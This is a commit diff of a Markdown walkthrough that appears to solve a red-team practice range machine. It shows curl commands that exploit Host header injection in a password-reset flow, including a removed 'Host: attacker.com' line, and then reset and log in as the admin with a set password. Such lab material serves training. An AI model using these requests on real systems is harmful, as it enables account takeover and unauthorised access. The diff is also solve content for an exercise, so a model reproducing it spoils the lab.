

Before and after one commit to hacktifytechnologies/RB-Range1, a Markdown page: machines/M1-itgw-webportal/solve_red.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/machines/M1-itgw-webportal/solve_red.md
+++ b/machines/M1-itgw-webportal/solve_red.md
@@ -60,7 +60,7 @@ The vulnerability: the application uses `request.headers.get('Host')` to constru
 **Craft the malicious request:**
 ```bash
 curl -s -X POST http://203.x.x.x:8080/forgot-password \
-  -H "Host: attacker.com" \
+  -H "Host: 127.0.0.1" \
   -H "Content-Type: application/x-www-form-urlencoded" \
   -d "email=admin@prabalurja.in"
 ```
@@ -97,9 +97,10 @@ http://203.0.x.x:8080/reset-password?token=<TOKEN_VALUE>
 
 Or via curl:
 ```bash
-curl -s -X POST "http://203.x.x.x:8080/reset-password" \
+curl -s -X POST http://203.0.1.229:8080/forgot-password \
+  -H "Host: 127.0.0.1" \
   -H "Content-Type: application/x-www-form-urlencoded" \
-  -d "token=<TOKEN_VALUE>&new_password=Hacked@12345"
+  -d "email=admin@prabalurja.in"
 ```
 
 <img width="1345" height="769" alt="image" src="https://github.com/user-attachments/assets/d7ff6ac6-3a46-442b-8f53-67b8be184cd4" />
@@ -110,9 +111,10 @@ A success message confirms the password has been updated.
 ### Step 6 — Login as Admin
 
 ```bash
-curl -s -c cookies.txt -X POST http://203.0.x.x:8080/login \
+curl -i -s -X POST http://203.0.1.229:8080/reset-password \
+  -H "Host: 127.0.0.1" \
   -H "Content-Type: application/x-www-form-urlencoded" \
-  -d "email=admin@prabalurja.in&password=Hacked@12345"
+  -d "token=<TOKEN>&new_password=Hacked@12345"
 ```
 
 Or log in via browser. The admin dashboard loads.
````
